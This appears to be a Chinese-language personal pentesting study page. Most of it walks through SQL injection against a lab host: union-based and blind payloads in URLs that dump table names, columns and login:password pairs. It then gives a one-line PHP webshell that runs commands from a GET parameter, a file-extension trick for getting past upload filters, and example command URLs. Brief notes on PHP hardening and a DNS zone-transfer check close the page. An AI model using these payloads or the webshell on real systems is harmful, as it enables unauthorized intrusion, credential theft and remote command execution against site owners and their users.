 #Pentester
##一、sql injection
###基本思路：
- 1. 判断是否有注入
- 2. 判断当前库名，表名，字段名
- 3. 获取数据
- 4. 考虑无回显处理
- 5. 看是否可以获取shell

###sql基本用法
- 1.select id,num from test union select 1,2
一般会逐个替换1,2换成想要显示的信息，需要确定哪个位置可以正确显示，当只有一个位置可以显示的时候，可以使用concat,这里可以判断查询使用了几个字段，如果该语句正常则表示使用了2个字段。如果union用不了可以使用order by 判断。 例子： order by 1 正确，order by 3 错误则表示查询使用了2个字段
例如：select ip from temp union select concat(@@version,':',database());
例2：select concat('my','s','ql','+',@@version);   结果：mysql+5.6.28
例3：select num,ip from temp union select 1,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;
num为数字型，ip为字符型，information表里面的信息都是字符型，所有要放在2这个位置，放在1的位置会报错（类型不匹配）
注意：union后面跟的列的个数必须和前面select 的个数一致,union select 后面的数字可以接任意想获取的信息（version(),current_user(),@@version,database()等）
concat()函数用于连接一行中的字段，显示效果还是会有多行，而 group_concat用于把所有字段的内容都显示成一个大字符串。
mysql> select concat(id,name) from table1;
+-----------------+
| concat(id,name) |
+-----------------+
| 1luyg           |
| 2lucy           |
+-----------------+

mysql> select group_concat(id,name) from table1;
+-----------------------+
| group_concat(id,name) |
+-----------------------+
| 1luyg,2lucy           |
+-----------------------+

- 2.select id,num from test order by 2  根据num进行排序
   select * from test order by 4 根据第四列进行排序，通过这个语句可以判断数据表中有多少列
- 3. select substr(table_name,17,1) from information_schema.tables limit 1;
  substr用于字符串截取，17代表取出第17个字符，后面的1代表取1个，如果是2代表从17的位置开始取出2个字符，   limit 1代表取出1条记录
- 实战:
 1. 判断注入：
http://172.16.45.128/cat.php?id=1 and true   返回正确结果
http://172.16.45.128/cat.php?id=1 and false  返回错误结果
该url存在注入
 2. 判断查询的字段个数：
http://172.16.45.128/cat.php?id=1 union select 1,2,3,4 返回正确结果
 3.判断数据库版本和库名
http://172.16.45.128/cat.php?id=1 union select 1,@@version,3,4 这里把最后的2变成了@@verison 实际的sql语句变成了  select @@version , 放在2这个位置是因为在页面上有显示内容，可以直接把查询后的信息在页面上展示了，这个可以根据实际情况进行适当处理，2这个位置可以换成database()来获取库名字，user()获取数据库用户名
4. 判断表名
使用union方式：
http://172.16.45.128/cat.php?id=1 union select 1,(select GROUP_CONCAT(table_name) FROM information_schema.tables),3,4
![image](https://github.com/luyg24/IT_security/blob/master/guess_table.png)
上述方法会查找所有表名，如果只想查找指定数据库的表，使用table_schema作为条件判断
select id,name,sex from table1 union select 1,(select GROUP_CONCAT(table_name) FROM information_schema.tables where table_schema = 'photoblog'),3;
使用盲注方式：
http://172.16.45.128/cat.php?id=1 and (SELECT SUBSTR(table_name,1,1) FROM information_schema.tables limit 1 ) > 'A'
如果返回正常代表表名的第一个字符是>'A'的
select * from users where id = 1 and ((SELECT SUBSTR(table_name,1,1) FROM information_schema.tables limit 1 )> 'A');
http://172.16.45.128/cat.php?id=1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name = 'users'),1,1

5. 获取字段
select column_name from information_schema.columns where table_name = 'users'

6. 获取数据
http://172.16.45.128/cat.php?id=1 union select 1,(select concat(login,':',password) from users),1,1

7. get shell ,针对php
shell 
<?php
  system($_GET['cmd']);
?>
将上出代码保存为webshell.php即可上传到目的站点
skill:当应用过滤了.php的时候可以考虑使用php3扩展名或者.php.test(apache还会继续使用.php作为该文件的扩展，其余没有测试过)
假设已经将webshell.php3上传到了目的站点，路径为：http://vulnerable/admin/uploads/webshell.php3，该shell是用来执行命令的，在后面加上?cmd='linux命令'
http://vulnerable/admin/uploads/webshell.php3?cmd=uname  ， http://vulnerable/admin/uploads/webshell.php3?cmd=ls  都能获取到执行结果
![image](https://github.com/luyg24/IT_security/blob/master/webshell1.png)

## 实战II 
针对以上存在漏洞的站点进行部分安全防护措施，具体如下
php配置文件启用 magic_quotes_gpc  禁用 display_errors
1. telnet获取网站head 信息
![image](https://github.com/luyg24/IT_security/blob/master/telnet-head.png)
参考：http://blog.csdn.net/zbzheng/article/details/3765033



- 参考：http://drops.wooyun.org/tips/123
##Other、
###dns区域传送检查
- nslookup 进入交互shell，使用server 指定dns服务器，然后 ls -d 域名，例如ls -d abc.com.cn   即可
参考：http://www.lijiejie.com/dns-zone-transfer-1/
- 

